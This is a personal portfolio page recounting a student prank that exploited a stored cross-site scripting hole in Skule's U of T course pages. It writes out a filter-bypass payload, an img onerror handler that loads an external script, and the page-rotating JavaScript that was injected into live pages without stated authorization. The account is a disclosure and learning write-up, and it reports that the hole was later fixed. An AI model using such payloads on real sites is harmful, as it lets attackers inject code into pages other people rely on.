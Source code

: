 ```yaml
---
layout: default
title: Skule Security Sillyness
permalink: /evaluations/skulecourses/index.html
group: evaluations
---
```

<div class="block">
<div class="text-block">
<p>
	My room mate <a href="http://zhuoweizhang.net">Zhuowei</a> and I explored how secure <a href="http://courses.skule.ca">Skule's (U of T Engineering) courses page</a> is,  
	since it is host to supposed past exams that most U of T students download without a second thought.  
</p>
<p>
	This was done mostly for fun and curiosity, with no malicious intent; <strong>preserving the pages' usability was a primary concern</strong>.  
</p>

<p>
	The pages that were pranked include: <a href="http://courses.skule.ca/course/?q=CSC180H1">CSC180</a> | <a href="http://courses.skule.ca/course/?q=ESC103H1">ESC103</a> | <a href="http://courses.skule.ca/course/?q=PHY180H1">PHY180</a>  
	In case those pages were taken down, you can see the scripts in action: <a href="esc103.html">Sample ESC103</a> | <a href="phy180.html">Sample PHY180</a>  
</p>
<p>
	Message to all readers and possibly maintainers of Skule:  
	Please sanitize input boxes before injecting content into the page; it's too easy for someone to insert an <code>< a></code> tag redirecting to a malicious site!  
</p>
<p>
<strong>UPDATE (Dec 22, 2013)</strong>: Fortunately Skule fixed this exploit! You can still check out the effect from the sample pages.  
</p>
</div>

<h2 class="anchor">Injecting Code (the clever part) <a class="anchor-link" title="permalink to section" href="#injection" name="injection">¶</a></h2>
<hr>
<div class="text-block">
<p>
	Before altering the actual course pages, an illegitimate course was created to allow prototyping.  
	Skule's search cannot find the course, but direct access through URL allows access to upload and view.  
</p>
<p>
	The first page to be "improved" was CSC180, which had an iframe element injected through the "Display As" field.  
	Apparently <strong>no sanitation of inputs is done...</strong>  
</p>

<div class="frames">
<img src="dirtyinputs.png">
<p>Protect against spam... But what of dirty injections!?!</p>
</div>

<p>
	The code for the CSC180 page was written by Zhuowei while I wrote the code for the ESC103 page.  
	The PHY180 page's <a href="https://code.google.com/p/gravityscript/">GravityScript</a> was written by Mr.Doob for Google and we simply embedded it into the page using the method below.  
</p>
<p>
	The embedding for the CSC180 page was trivial since no scripting was required,  
	but adding a script for the ESC103 and PHY180 pages were much more difficult.  
</p>
<p>
	Just adding a <xmp>< script></xmp> element didn't work.   
	<xmp><script src="some pastebin url"> </script></xmp>
	After exhausting the possibilities by splitting the string up and concatenating them like <xmp>"<scr" + "ipt>"</scr>"</xmp> and escaping the characters like  
	<xmp>&quot;&lt;scr&quot; + &quot;ipt&gt;&quot;"</xmp> we determined that the input ate script tags, apparently.  
</p>
<p>
	Our workaround was to use an impossible to load <xmp><img></xmp> element that points to our script with its onerror attribute.
	<xmp><img onerror="a=document.createElement(&quot;script&quot;);a.src=&quot;url to our code&quot;;document.body.appendChild(a)" src="http://localhost:1"></xmp>
</p>
It will always load my script because http://localhost:1 as an image can never load!
</div>

<h2 class="anchor">Javascript (the dumb part) <a class="anchor-link" title="permalink to section" href="#code" name="code">¶</a></h2>
-------------------------
<div class="text-block">
<p>
	I took this as an opportunity to get familiar with Javascript, seeing as I recently learned HTML and CSS for this portfolio.  
	Gaining proficiency in JS will complete my skill set as a web developer, which will be widely useful since the web is becoming a larger distributor of applications.  
	Web apps are robust in being 100% cross-platform, requiring just a browser to function on any OS and device, compatible with my philosophy for robustness.  
</p>
<p>
	The idea was to create an effect that was immediately noticeable yet is easy to turn off to preserve usability.  
	Seeing as this was our linear algebra course, I went with rotating the page, which is a linear transformation :D.  
	A large button was placed in the centre of the page to make it easy for people to return the page to normal since its location will stay still.
</p>
<pre><code>var timer = setInterval(transform,50);
var degreez = 0;
var allSet = false;
var bellybutton;
function transform(){
	if (!allSet) {
		var transOrigin = "50% 50%";
		document.body.parentElement.style.height = "100%";
		document.body.style.minHeight = "100%";
		document.body.style.transformOrigin = transOrigin;
		document.body.style.webkitTransformOrigin = transOrigin;
		document.body.style.mozTransformOrigin = transOrigin;
		bellybutton = document.createElement("button");
		bellybutton.innerHTML = "CLICK TO STOP PUKING";
		bellybutton.style.position = "absolute";
		bellybutton.style.left = "45%";
		bellybutton.style.top =  "45%";
		bellybutton.style.width = "10%";
		bellybutton.style.height =  "10%";
		document.body.appendChild(bellybutton);
		bellybutton.onclick = stoppuking;
		allSet = true;
	}
	var transString = "rotate(" + degreez + "deg)";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	degreez += 1;
}
function stoppuking(){
	clearInterval(timer);
	var transString = "";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	document.body.removeChild(bellybutton);
}
</code></pre>

<p>
	This code was designed to work on all browsers and devices (webkit, moz, and unnamed),  
	and a button was chosen because it can be clicked on all devices, whereas some other mechanisms  
	such as onhover aren't mobile compatible.  
</p>
<p>
	Lastly, I'll leave how we changed the years to an arbitrary number as an anagram, decode it if you can:  
	a cad ed retelevise fill unlit  (It is in English, has 1 verb, 1 noun, and 3 adjectives)
</p>
</div>

<h2 class="anchor">Gains from Experience <a class="anchor-link" title="permalink to section" href="#gains" name="gains">¶</a></h2>
---------------------------
- Javascript experience and interest in web development
- Appreciation of sanitizing inputs
- Knowledge of this issue to Skule maintainers that they may fix it
- Fun :D

</div>